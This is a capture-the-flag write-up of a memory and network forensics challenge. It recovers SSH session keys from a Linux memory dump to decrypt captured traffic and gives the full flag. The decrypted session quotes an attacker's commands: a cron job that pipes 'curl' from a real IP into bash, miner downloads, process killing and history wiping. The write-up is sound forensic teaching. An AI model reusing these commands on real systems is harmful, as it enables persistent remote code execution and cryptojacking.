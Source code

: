 ```yaml
---
layout: post
title: HTB Business CTF 2021 - Compromise
---
```


## Description

*We are certain that our internal network has been breached and the attacker tries to move laterally. We managed to capture some suspicious traffic and create a memory dump from a compromised server. I hope you are skilled enough to bring this incident to its end.*

*Available Data:*

* *capture.pcap (network capture of SSH traffic)*
* *dump.mem (memory dump of a suspicious system)*

<!--more-->
## Solution
The concrete goal of this challenge was not clear initially. However, one could guess that the encrypted SSH traffic somehow needs to be decrypted. So the fight-plan was the following:

1. Extract the SSH session key from the memory dump
2. Use the session key to decrypt the traffic

However, several substeps needed to be done to achieve this goal.

### Get The Right Volatility Profile
In order to use `volatility` one first needs to identify the correct profile of the memory dump. Unfortunately, the plugin `imageinfo` did not yield in any useful result.

```bash
forensics@siftworkstation: /cases/hackthebox/business_ctf_21/forensics/compromised
$ vol.py -f dump.mem imageinfo
Volatility Foundation Volatility Framework 2.6.1
/usr/local/lib/python2.7/dist-packages/volatility/plugins/community/YingLi/ssh_agent_key.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
  from cryptography.hazmat.backends.openssl import backend
INFO    : volatility.debug    : Determining profile based on KDBG search...
          Suggested Profile(s) : No suggestion (Instantiated with LinuxUbuntu18043x64)
                     AS Layer1 : LimeAddressSpace (Unnamed AS)
                     AS Layer2 : FileAddressSpace (/cases/hackthebox/business_ctf_21/forensics/compromised/dump.mem)
                      PAE type : No PAE
                           DTB : -0x1L
```

Running `strings` on the memory dump showed, that it is a dump from a Linux machine. The exact identified version is

```
Linux Version: Ubuntu 18.04
Kernel Version: 4.15.0-142-generic (buildd@lgw01-amd64-036)
```

In order to create the correct version of a volatility profile, a identical (with the same kernel version) system needed to be created. After this, the steps described by [Andrea Fortuna][1]. Once done, volatility could be used as intended.

### Extract The SSH Session Keys
In order to extract the SSH session keys from the memory, `fox-it` provides a very useful volatility module ([OpenSSH-Session-Key-Recovery][2]). Using this module, it was a piece to extract the SSH session keys from the memory dump.

```bash
forensics@siftworkstation: /cases/hackthebox/business_ctf_21/forensics/compromised
$ vol.py -f dump.mem --profile=LinuxUbuntu_4_15_0-142-generic_profilex64 linux_sshkeys -p 1692

/\____/\
\   (_)/        OpenSSH Session Key Dumper
 \    X         By Jelle Vergeer
  \  / \
   \/
Scanning for OpenSSH sshenc structures...

Name                           Pid      PPid     Address            Name                           Key                                                                                                                              IV                                                              
------------------------------ -------- -------- ------------------ ------------------------------ -------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------------------------------
sshd [sshd: developer@pts/0]       1692     1575 0x000055976d18cb40 aes256-gcm@openssh.com         893112f1ef2bf4567ca289545efeb1a20dd709ee18c0b5b83b2b85541bc93d1f                                                                 0b1148709466289120d7a241                                        
sshd [sshd: developer@pts/0]       1692     1575 0x000055976d18ccc0 aes256-gcm@openssh.com         06baa1f1779207f120813e3986854cc3e2196fa82cc6d6ec756409ad86e8c94a                                                                 5865d3c75d5dc1f2e19e6406   
```

### Decrypt The Encrypted SSH Traffic
The last step was to decrypt the encrypted SSH traffic from the captured network traffic. In order to achieve this, `fox-it` again provides a very useful tool called [OpenSSH-Network-Parser][3], which allows to decrypt SSH traffic from a `PCAP` file. In order to achieve this, one just needs to create a `JSON` file containing the extracted session keys.

```json
{
        "task_name": "sshd", 
        "sshenc_addr": 94108858764096, 
        "cipher_name": "aes256-gcm@openssh.com", 
        "key": "893112f1ef2bf4567ca289545efeb1a20dd709ee18c0b5b83b2b85541bc93d1f", 
        "iv": "0b1148709466289120d7a241"
}
{
        "task_name": "sshd", 
        "sshenc_addr": 94108858764480, 
        "cipher_name": "aes256-gcm@openssh.com", 
        "key": "06baa1f1779207f120813e3986854cc3e2196fa82cc6d6ec756409ad86e8c94a", 
        "iv": "5865d3c75d5dc1f2e19e6406"
}

```

Using the tool and the just created file `keys.json`, the SSH traffic could be decrypted. Thereby, the tool creates a file containing what is like the complete bash history of the SSH session.

```bash
forensics@siftworkstation: /cases/hackthebox/business_ctf_21/forensics/compromised
$ network-parser -p capture.pcap --popt keyfile=keys.json --proto ssh -o ssh-traffic/ 
getrlimit: (1024, 4096)
/cases/hackthebox/business_ctf_21/forensics/compromised/OpenSSH-Network-Parser/venv2/local/lib/python2.7/site-packages/gevent/builtins.py:96: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
  result = _import(*args, **kwargs)
forensics@siftworkstation: /cases/hackthebox/business_ctf_21/forensics/compromised
$ ls ssh-traffic
192.168.1.10  files  stats_2021-07-27--16-24-42.txt
(venv2) forensics@siftworkstation: /cases/hackthebox/business_ctf_21/forensics/compromised
$ cat ssh-traffic/192.168.1.10/2021-07-07--13-56-06.txt | head -n 200
[192.168.1.10:50490 -> 192.168.1.11:22  2021-07-07 13:56:06.705333 - 2021-07-07 13:56:56.341421]
[User Auth Request]
username:      'developer'
service_name:  'ssh-connection'
method_name:   'none'

[User Auth Failure]
auth_continue:    'publickey,password'
partial_success:  0

[User Auth Request]
username:      'developer'
service_name:  'ssh-connection'
method_name:   'password'
Password: HTB{w3ll_1_th0ught_

Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-142-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Jul  7 13:56:10 UTC 2021
  System load:  0.23              Processes:             94
  Usage of /:   48.6% of 8.79GB   Users logged in:       1
  Memory usage: 14%               IP address for enp0s3: 192.168.1.11
  Swap usage:   0%

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

90 packages can be updated.
23 updates are security updates.

New release '20.04.2 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Wed Jul  7 16:55:18 2021

developer@ubuntuserver:~$ 
echo "running....."config.json -t `echo $cores` >/dev/null &ash -s" >> /tmp/cron || true && \
export HISTFILE=/dev/null

developer@ubuntuserver:~$ 
d procid grep -vw suppoie | awk '{if($3>40.0) print $2}' | while read

> 
do

> 
kill -9 $procid

> 
done

developer@ubuntuserver:~$ 
rm -rf /dev/shm/jboss

developer@ubuntuserver:~$ 
ps -fe|grep -w suppoie |grep -v grep

developer@ubuntuserver:~$ 
if [ $? -eq 0 ]

> 
then

> 
pwd

> 
else

> 
crontab -r || true && \

> 
\cho "* * * * * curl -s http://147.182.172.189/logo1.jpg | bash -s" >> /tmp/cron || true && \

> 
crontab /tmp/cron || true && \

> 
rm -rf /tmp/cron || true && \

> 
curl -o /var/tmp/config.json http://147.182.172.189/1.json

> 
curl -o /var/tmp/suppoie http://147.182.172.189/rig

> 
echo "bjBfMG4zX3cwdWxkX2YxbmRfbTMhISF9Cg" > /dev/null

> 
chmod 777 /var/tmp/suppoie

> 
cd /var/tmp

> 
proc=`grep -c ^processor /proc/cpuinfo`

[...snip...]

```

Thereby, the first part of the flag got visible in form of the password: `HTB{w3ll_1_th0ught_`. The second part of the flag was hidden in a Base64 encoded string that was echoed into `/dev/null`. Decoding it gives the second part of the flag: `n0_0n3_w0uld_f1nd_m3!!!}`.

```bash
forensics@siftworkstation: /cases/hackthebox/business_ctf_21/forensics/compromised
$ echo -n "bjBfMG4zX3cwdWxkX2YxbmRfbTMhISF9Cg" | base64 -d
n0_0n3_w0uld_f1nd_m3!!!}
base64: invalid input

```

This results in the complete flag of: **HTB{w3ll_1_th0ught_n0_0n3_w0uld_f1nd_m3!!!}**

[1]: https://www.andreafortuna.org/2019/08/22/how-to-generate-a-volatility-profile-for-a-linux-system/
[2]: https://github.com/fox-it/OpenSSH-Session-Key-Recovery
[3]: https://github.com/fox-it/OpenSSH-Network-Parser
